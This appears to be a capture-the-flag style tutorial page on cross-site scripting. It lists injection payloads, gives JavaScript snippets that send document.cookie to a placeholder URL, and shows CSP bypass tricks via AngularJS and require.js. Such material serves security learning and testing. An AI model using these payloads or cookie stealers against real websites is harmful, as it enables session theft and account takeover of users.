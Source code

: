 # 💬 XSS

Cross Site Scripting (XSS) is a type of attack in which malicious scripts are injected in a website and executed on the client browser.

Common payloads to check for XSS are:

```xml
<script>alert('hello');</script>

<img src="javascript:alert('hello')">

<iframe src="javascript:alert(`xss`)"></iframe>

<svg onload="alert('xss')">

<img onerror="alert('hello')">
```

Goals of a XSS:

- Steal the user cookie
- Log user activities on the website
- Change client code execution
- Make action from the admin account

## Types of XSS

There are three main types of XSS:

- reflected
- stored
- DOM-based

### Reflected

In reflected XSS the data inserted by the user is included in the webpage source without any validation.

Common point of attacks are query or path params.

```
http://website.com/profile?greetings=<script>alert('Hi!')</script>
```

### Stored

In stored XSS the payload is stored on the server and it is executed when other users visit the page.

It was very common in the past inside public forum or blogs. The payload can be stored inside a comment or a post.

Other examples are user profile information or contact forms.

Do you know someone called `<script>alert('Hi!')</script>`?

When there is no way to test your payload, this type of vulnerability becomes a blind XSS. This could happen for example with the restricted account.

### DOM-based

In DOM-based XSS the execution happens in the browser without any refreshes or updates.

Common examples are input form or special page actions.

## Send requests in Javascript

XSS challenges usually require to do a request with a secret value.
These snippets below are possible ways to do it.

```js
// this is a redirection, but it could be used too
document.location = '<url>?cookie=' + document.cookie
```

```js
var request = new XMLHttpRequest()
request.open('GET', '<url>?cookie=' + document.cookie)
request.send(null)
```

```js
fetch('<url>?cookie=' + document.cookie)
```

## CSP bypasses

### JSONP endpoints

This technique is based on special JSONP endpoints that allows unsafe execution of malicious scripts.

Look [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a list of the most common endpoints.

:::caution
If there are any CSP sources set, you should pay attention on which endpoint you are using.
:::

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### require.js

If the website uses require.js, it is possible to load additional code that will be automatically injected.
This means that the code will be loaded together with require.js and so it will avoid any nonce or other CSP.

```js
<script data-main="data:1,alert(1)" src="require.js"></script>
```
